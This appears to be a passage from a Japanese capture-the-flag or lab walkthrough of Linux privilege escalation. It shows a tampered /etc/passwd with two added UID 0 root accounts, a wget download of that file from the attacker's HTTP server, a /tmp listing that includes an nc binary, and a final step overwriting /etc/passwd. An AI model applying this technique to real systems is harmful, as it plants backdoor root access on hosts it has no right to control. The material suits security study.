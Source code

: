 ```bash
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
landscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
_chrony:x:113:120:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
nobunaga:x:1001:1001::/home/nobunaga:/bin/sh
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:115:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
user01:passwd12:0:0:root:/root:/bin/bash
user02:$6$ignite$NpGq6ii4Sbk2v/3uaWdIbMDDbHAt6m.CPYIGYQuoJnMNuKka8NrYFBMd.yYK6n9.3SALkeNDq1CoGbgoW8bgd.:0:0:root:/root:/bin/bash

```
　　
最後の２行が、今回`改ざん`した部分である。  
ひとつめの`user01`は`生パスワード`、ふたつめの`user02‘は`ソルト付きハッシュ`をそれぞれ格納している。  
  
```bash
wget -O /tmp/passwd http://10.15.0.6:9000/passwd
  
```
  
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
172.20.15.28 - - [06/Jun/2024 20:05:01] "GET /passwd HTTP/1.1" 200 -

```
  
`wget`でうまく配送できてるっぽい。  
  
```bash
ls -al /tmp
total 48
drwxrwxrwt  2 root     root      4096 Jun  6 11:05 .
drwxr-xr-x 20 root     root      4096 Jun  6 07:37 ..
-rwxrwxrwx  1 nobunaga nobunaga 34952 Jun  4 04:00 nc
-rw-r--r--  1 nobunaga nobunaga  2212 Jun  6 10:59 passwd

```
  
うん、うまく配送できた。  
こっからがまじで分かれ道。ドキドキしながら実行していく。  
  
```bash
cp /tmp/passwd /etc/passwd

```
  